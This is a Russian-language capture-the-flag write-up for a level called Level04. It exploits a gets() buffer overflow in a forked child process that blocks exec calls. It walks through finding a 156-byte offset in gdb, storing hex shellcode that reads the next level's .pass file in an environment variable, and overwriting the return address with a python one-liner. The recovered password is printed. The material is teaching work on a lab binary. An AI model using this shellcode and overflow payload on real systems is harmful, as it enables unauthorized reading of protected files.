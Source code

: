 ## Level04

Данная программа создает подпроцесс, который имеет незащищенный вызов `gets` и выключенный NX. Следовательно, он уязвим к buffer-overflow attack.



Отличие этого уровня от предыдущих в том, что родительский процесс предотвращает вызовы `exec` и ему подобные в дочернем подпроцессе. Поэтому вместо запуска оболочки, нам ничего не остается, как напрямую прочитать `.pass`.

С помощью [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) получаем, что необходимый нам offset равен 156 байтов.

```
> gdb level04
$ set follow-fork-mode child
$ run
Starting program: /home/users/level04/level04 
[New process 8570]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 8570]
0x41326641 in ?? ()
```

Воспользуемся [этим](http://shell-storm.org/shellcode/files/shellcode-73.php) shellcode-ом. Мы могли бы записать его в стэк, однако вышеуказанный shellcode занимает 289 байта, что превосходит 156 байтов, доступных нам на стэке.

Нам нужно записать shellcode в переменную окружения и узнать её адрес с помощью вспомогательного файла:

```c
// /tmp/test.c

#include <stdio.h>
#include <stdlib.h>

int main() { printf("%p\n", getenv("SHLCODE")); }
```
и 

```sh
> export SHLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
> ( cd /tmp ; gcc -m32 test.c -o bla )
> /tmp/bla
0xffffdebf
```

Итого,

```sh
> python -c 'print "a" * 156 + "\xff\xff\xde\xbf"[::-1]' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

